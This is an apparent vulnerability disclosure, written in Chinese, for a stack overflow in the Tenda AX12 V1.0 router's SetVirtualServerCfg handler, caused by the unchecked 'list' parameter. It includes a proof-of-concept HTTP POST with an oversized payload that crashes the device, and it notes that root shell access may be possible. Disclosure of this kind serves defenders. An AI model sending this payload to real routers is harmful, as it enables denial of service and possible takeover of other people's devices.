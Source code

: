 
### **概述**：
影响设备：Tenda AX12 V1.0
影响固件版本：V22.03.01.46
影响：拒绝服务攻击，栈溢出可以进一步获得root shell
固件下载地址：<https://www.tenda.com.cn/download/detail-3621.html>


![](repo/Tenda%20AX12%20%20V1.0/2/img/xz.png)

### **漏洞**：
该漏洞位于`/goform/SetVirtualServerCfg`中对获取的请求参数`list`没有长度限制，最终可以导致堆栈溢出
在`httpd`文件中的`sub_41DE60`函数中存在目标漏洞函数`sub_43B1B4`

![](repo/Tenda%20AX12%20%20V1.0/2/img/v1.png)

漏洞存在于`sub_43AF3C`中：

![](repo/Tenda%20AX12%20%20V1.0/2/img/v2.png)

可以看到将请求参数`list`传入变量`v3`，由于并未对变量`v3`做长度限制，下面的`sscanf`函数将以逗号作为分隔将`v3`的值分别传入`v12,v11,v10,v9`，而这几个变量只需要一定长度的填充就可以栈溢出，可以轻易的导致拒绝服务攻击，进一步构造exp能够获取shell,漏洞如下图:

![](vuln3.png)


### **POC**:

~~~
POST /goform/SetVirtualServerCfg HTTP/1.1
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 23
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Host: 192.168.122.15
Origin: http://192.168.122.15
Proxy-Connection: keep-alive
Referer: http://192.168.122.15/index.html
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
X-Requested-With: XMLHttpRequest

list="a"*0x2000

~~~

### **影响效果**：


![](repo/Tenda%20AX12%20%20V1.0/2/img/after.png)